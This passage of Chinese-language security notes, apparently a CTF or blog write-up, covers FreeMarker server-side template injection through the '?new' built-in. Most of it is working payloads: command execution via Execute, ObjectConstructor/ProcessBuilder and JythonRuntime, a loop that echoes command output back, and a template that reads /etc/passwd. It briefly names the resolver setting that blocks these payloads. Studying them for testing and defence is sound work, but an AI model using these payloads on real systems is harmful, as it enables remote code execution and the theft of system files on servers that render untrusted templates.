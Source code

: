### `new`

这个就是可以新建一个对象`用来创建一个具体实现了`TemplateModel`接口的变量的内建函数`.三个符合条件的函数

```java
<#assign value="freemarker.template.utility.Execute"?new()>
${value("calc.exe")}

<#assign value="freemarker.template.utility.ObjectConstructor"?new()>
${value("java.lang.ProcessBuilder","calc.exe").start()}

<#assign value="freemarker.template.utility.JythonRuntime"?new()>
<@value>import os;os.system("calc.exe")</@value>
```

```java
 //freemarker.template.utility.Execute实现了TemplateMethodModel接口(继承自TemplateModel)
 <#assign ex="freemarker.template.utility.Execute"?new()> 
 ${ex("id")}//系统执行id命令并返回
```

但是也依然受到了限制`cfg.setNewBuiltinClassResolver(TemplateClassResolver.ALLOWS_NOTHING_RESOLVER);`,这样就可以ban掉。

![image-20220529102538971](https://c.img.dasctf.com/images/2022529/1653791142606-66883bc3-7df6-47a1-a6ed-e2d0cf4fe9bd.png)

[Configurable.setAPIBuiltinEnabled](https://freemarker.apache.org/docs/api/freemarker/core/Configurable.html#setAPIBuiltinEnabled-boolean)可以通过这个开启。

```java
<#--    回显 -->
    <#assign ob="freemarker.template.utility.ObjectConstructor"?new()>
    <#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.lang.ProcessBuilder","ifconfig").start().getInputStream())) >
    <#list 1..10000 as t>
        <#assign line=br.readLine()!"null">
        <#if line=="null">
            <#break>
        </#if>
        ${line}
        ${"<br>"}
    </#list>

<#--    读文件 -->
    <#assign ob="freemarker.template.utility.ObjectConstructor"?new()>
    <#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.io.FileInputStream","/etc/passwd"))) >
    <#list 1..10000 as t>
        <#assign line=br.readLine()!"null">
        <#if line=="null">
            <#break>
        </#if>
        ${line?html}
        ${"<br>"}
    </#list>
```
